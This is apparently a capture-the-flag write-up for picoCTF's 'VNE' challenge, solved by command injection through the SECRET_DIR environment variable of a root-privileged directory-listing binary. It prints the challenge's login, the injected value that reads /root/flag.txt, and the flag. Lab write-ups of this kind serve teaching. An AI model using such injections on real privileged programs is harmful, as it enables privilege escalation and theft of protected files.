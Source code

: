 ```yaml
---
layout: post
title:  "VNE"
subtitle: 2024-08-21
date:   2024-08-21
description: Abusing environment variables
tags: ["Binary", "Environment", "Injection", "Medium"]
category: [CTF,picoCTF]
---
```


# Challenge Info
description: `This’ve got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:59803, and run the binary named “bin” once connected. Login as ctf-player with the password, af86add3`

author: Junias Bonou

![vne](/assets/img/VNE/vne.png)

## Attempts
Upon connecting, I ran `pwd` and `ls` to see what we have:

```
ctf-player@pico-chall$ pwd
/home/ctf-player
ctf-player@pico-chall$ ls
bin
```
I tried navigating around with `cd`, until I finally found something interesting:
```
ctf-player@pico-chall$ cd ..
ctf-player@pico-chall$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$ cd challenge
-bash: cd: challenge: Permission denied
```
A challenge folder, which the flag is probably inside of. Unfortunately, we can't navigate into it. Next, I tried seeing if sudo was available, to no success.

```
ctf-player@pico-chall$ sudo
-bash: sudo: command not found
ctf-player@pico-chall$
```

Finally, I want back to ctf-player to try and execute the binary we're given. Unfortunately, upon trying to execute it, I'm met with a problem:

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$
```
Okay, so lets try setting the `SECRET_DIR` environment variable:

```
ctf-player@pico-chall$ export SECRET_DIR=/
ctf-player@pico-chall$ ./bin
Listing the content of / as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$
```

## Understanding the Challenge
The binary called "bin" that we've been executing, reads directories with root permissions, so when we set `SECRET_DIR=/`, it read everything in / as root. Using this information, we can use the environment variable to poke around different directories, starting with `/challenge`:

```
ctf-player@pico-chall$ export SECRET_DIR=/challenge
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root:
config-box.py  metadata.json  profile
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-call$ ./bin
Listing the contents of /root as root:
flag.txt
ctf-player@pico-chall$
```

So, while `/challenge` didn't yield any success, `/root` shows us where the flag is, and that it's in a `.txt`. Which is great and all, but how can we actually read the contents of it? As seen previously, `bin` only reads directories, so it doesn't serve any use... unless we can chain commands...

## Solution

```
ctf-player@pico-chall$ export SECRET_DIR="ls /root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of ls /root | cat /root/flag.txt as root:
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}ls: cannot access 'ls': No such file or directory
ctf-player@pico-chall$
```

flag: `picoCTF{Power_t0_man!pul4t3_3nv_1670f174}`
